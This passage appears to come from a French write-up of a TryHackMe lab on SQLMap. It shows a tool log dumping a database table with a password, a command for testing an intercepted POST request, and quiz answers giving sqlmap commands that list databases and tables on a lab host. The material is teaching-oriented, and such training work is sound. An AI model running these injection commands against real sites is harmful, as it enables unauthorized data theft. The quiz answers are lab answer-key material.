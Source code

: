 ```bash
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```

Cependant, contrairement à l'URL utilisée pour les tests ci-dessus, vous pouvez également utiliser des tests basés sur `POST`, dans lesquels l'application envoie des données **dans le corps de la requête au lieu de l'URL**. Des exemples pourraient être des **formulaires de connexion**, des **formulaires d'inscription**, etc. Pour suivre cette approche, vous devez intercepter une requête `POST` sur la page de **connexion ou d'inscription** et **l'enregistrer sous forme de fichier texte**. Vous pouvez utiliser la commande suivante pour saisir cette requête enregistrée dans le fichier texte dans l'outil SQLMap :

```bash
user@ubuntu:~$ sqlmap -r intercepted_request.txt
```

> Apprendre à intercepter et capturer les requêtes **POST** est hors de portée de cette salle.
{: .prompt-info}

---

**Which flag in the SQLMap tool is used to extract all the databases available?**

**Réponse :** `--dbs`

**What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Réponse :** `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`

### Task 4 - Practical Exercise

L'application Web dispose d'une page de connexion hébergée à l'adresse `http://10.10.111.207/ai/login`. Lorsque vous visitez cette URL, vous verrez une page de connexion vulnérable à l’injection SQL.

![SQLMap Site](https://tryhackme-images.s3.amazonaws.com/user-uploads/6645aa8c024f7893371eb7ac/room-content/6645aa8c024f7893371eb7ac-1728644371711.png)
